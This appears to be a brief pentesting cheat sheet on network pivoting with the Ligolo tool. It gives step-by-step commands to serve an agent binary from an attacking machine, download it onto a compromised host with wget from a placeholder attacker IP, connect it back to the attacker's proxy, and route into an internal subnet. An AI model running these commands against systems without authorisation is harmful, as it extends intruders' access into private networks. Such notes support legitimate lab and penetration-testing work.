 ## 1. Run Python web server from attacking machine. Host the 'agent.exe/agent' file.
`python3 -m http.server 8000`

## 2. Run from the compromised host.
`wget http://<AttackingIP>:<AttackingPort>/agent`

## 3. Run from your attacking machine.
`sudo ./proxy -selfcert`

## 4. Run from the compromised host. (If compromised host = Linux)
`sudo chmod +x ./agent`

`sudo ./agent -connect <AttackingIP>:11601 -ignore-cert`

If (compromised host = Windows)
`./agent.exe -connect <AttackingIP>:11601 -ignore-cert`

## 5. Run from Ligolo Proxy (From Attacking Machine)
`session`

`1`

`ifconfig`

In the above ifconfig command, copy the IP address of the interface. Let us assume the IP is 172.16.1.100

## 6. Run the following commands on the attacking machine to set up the interface.
`sudo modprobe tun`

`sudo ip tuntap add mode tun dev ligolo`

`sudo ip route add 172.16.1.0/24 dev ligolo`

`ip route list`

## Do you see the Ligolo interface now? If not, repeat the above steps.
